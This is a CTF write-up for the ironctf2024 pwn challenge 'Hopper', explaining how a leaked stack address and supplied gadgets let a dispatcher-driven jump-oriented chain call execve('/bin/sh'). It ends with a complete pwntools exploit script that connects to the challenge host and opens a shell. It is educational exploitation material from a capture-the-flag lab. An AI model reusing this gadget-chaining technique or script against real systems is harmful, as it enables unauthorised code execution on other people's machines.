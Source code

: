 ```yaml
---
title: Hopper
date: 2024-10-06 +05:30
author: kliprmimo
---
```


# Hopper
## Description
Hippety-hop... Hippety-hop your way to victory!

Ctf: ironctf2024 https://ctf.1nf1n1ty.team/challenges#Hopper-15

Author: Vigneswar

Category: pwn

`nc pwn.1nf1n1ty.team 31886`

## Writeup
### Overview
In this challenge we are given only binary without source code so we need to make use of IDA free to see what this binary does.
But first we check what is this file using `file`  program
![](attachments/Pasted%20image%2020241006121743.png)
we also `checksec` to find out what security features does this binary have
![](attachments/Pasted%20image%2020241006121915.png)
from this we could say that this is nearly perfect binary for pwning, but life is not all roses and we cannot execute code from the stack.
Lets take look at what is inside, shall we?

![](attachments/Pasted%20image%2020241006122327.png)

there is not even main function in this programme so we take a look at `start` .
What it does is:
- print a bunny ascii image
- print retaddr (very important for us)
- print "hop hop" as ascii image
- takes our input to a stack
- jumps to an address that that is at the top of our input

Why is this retaddr important for us?
Thanks to it we can find out where is stack located, and we can reference addresses according to this leaked address.
Luckily for us we are provided some gadgets that can help us exploit this challenge.

![](attachments/Pasted%20image%2020241006123411.png)
![](attachments/Pasted%20image%2020241006123425.png)![](attachments/Pasted%20image%2020241006123440.png)![](attachments/Pasted%20image%2020241006123711.png)
### Plan for an exploit
Since we cannot execute the code from the stack we need to use provided gadgets to execute `syscall` of `execve`. What this means is we have to set some registers according to requirements
[x64.syscall.sh](https://x64.syscall.sh/)

![](attachments/Pasted%20image%2020241006123857.png)
- `RAX` has to be `0x3B`
- `RDI` has to be pointer to the beginning of `/bin/sh` string
- `RSI` has to be `0`
- `RDX` has to be `0`
and we need to execute `syscall` after that

How do we control the flow of the programme using those gadgets? 
If we put address of dispatcher in `r15` (address that is jumped to at the end of most of the gadgets) we can use it to jump to some gadget like

![](attachments/Pasted%20image%2020241006124910.png)

and then jump back to `r15` - dispatcher 
what dispatcher does is it increases value in `rbx` by `8`  and jumps to address that is pointed by address in this register. So we can essentially use it to walk the gadgets of which we put addresses on the stack.
### Actual exploit
In order to do that we can put an address of gadgets at the top:
- address of `gadgets` gets popped of to `rsi`
- address of `/bin/sh\x00` gets popped of to `rdi`
- address of we leaked earlier gets popped of to `rbx` (this is the address that will be used by dispatcher)
- value of `0x3B` gets popped of to `r13`
- address of `dispacher` gets popped to `r15`
- we jump to `disparcher` 
- `dispacher` jumps to itself
- `dispatcher` jumps to gadgets that clears `rsi`
- `dispatcher` jumps to `xchg rax, r13` to set rax to be `0x3b`
- from there we jump to address that is at `rsp`
- from `dispatcher` we once again clear `rsi`
- from `dispatcher` we once again clear `rdx`
- finally we jump to `syscall`

Code:
```python
from pwn import remote, p64, u64

conn = remote("pwn.1nf1n1ty.team", 31886)

msg = conn.recvuntil(b'>>')
addr = msg[379: 379 + 8]

addr_int = u64(addr)
bin_sh_addr = addr_int + 8 * 6

gadget_chain = 0x401017
dispatcher_addr = 0x401011
xor_rsi = 0x401027
xchg_rax_r13 = 0x40100c
xor_rdx = 0x401021
syscall = 0x40100a

payload = p64(gadget_chain)
payload += p64(bin_sh_addr)         # rdi
payload += p64(addr_int)            # rbx
payload += p64(0x3b)                # r13 (later rax)
payload += p64(dispatcher_addr)     # r15 dispatcher
payload += p64(xor_rsi)             # clear rsi
payload += p64(xchg_rax_r13)        # swap rax and r13
payload += p64(xor_rdx)             # clear rdx
payload += p64(syscall)             # syscall
payload += b'/bin/sh\x00'

conn.sendline(payload)
conn.interactive()
```
### Pro tip
if you don't include null byte at the end of `/bin/sh` you might find yourself debugging for few additional hours